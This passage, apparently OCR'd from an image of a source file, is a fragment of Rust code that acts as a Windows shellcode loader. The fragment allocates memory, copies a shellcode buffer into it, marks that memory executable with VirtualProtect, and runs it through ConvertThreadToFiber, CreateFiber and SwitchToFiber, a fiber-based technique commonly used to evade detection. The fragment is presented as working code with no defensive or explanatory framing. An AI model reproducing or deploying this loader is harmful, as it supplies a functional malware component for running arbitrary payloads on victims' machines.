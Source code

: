 ```rust
        return Err("Empty code".into());
    }
    
    if size > 50 * 1024 * 1024 {  // 50MB limit
        return Err("Shellcode too large".into());
    }
    
    // Allocate memory for shellcode
    let buffer = win::VirtualAlloc(
        std::ptr::null_mut(),
        size,
        win::MEM_COMMIT | win::MEM_RESERVE,
        win::PAGE_READWRITE,
    );
    
    if buffer.is_null() {
        return Err("Failed to allocate memory for code".into());
    }
    
    // Copy shellcode to allocated memory
    std::ptr::copy_nonoverlapping(code.as_ptr(), buffer as *mut u8, size);
    
    // Change memory protection to executable
    let mut old_protect = 0u32;
    if win::VirtualProtect(buffer, size, win::PAGE_EXECUTE_READ, &mut old_protect) == 0 {
        return Err("Memory protection change to executable failed".into());
    }
    
    // Execute using fiber
    let mut fiber = std::mem::zeroed::<Fiber>();
    
    // Convert current thread to fiber
    fiber.primary_fiber_address = ConvertThreadToFiber(null());
    if fiber.primary_fiber_address.is_null() {
        return Err(format!("ConvertThreadToFiber Failed With Error: {}", GetLastError()).into());
    }
    
    // Create fiber for shellcode
    fiber.shellcode_fiber_address = CreateFiber(
        0,
        std::mem::transmute::<*mut c_void, LPFIBER_START_ROUTINE>(buffer),
        null()
    );
    
    if fiber.shellcode_fiber_address.is_null() {
        ConvertFiberToThread();
        return Err(format!("CreateFiber Failed With Error: {}", GetLastError()).into());
    }
    
    // Execute the fiber
    let result = std::panic::catch_unwind(|| {
        SwitchToFiber(fiber.shellcode_fiber_address);
    });
    
    match result {
        Ok(_) => Ok(()),
        Err(_) => Err("Fiber execution failed".into())
    }
}
```
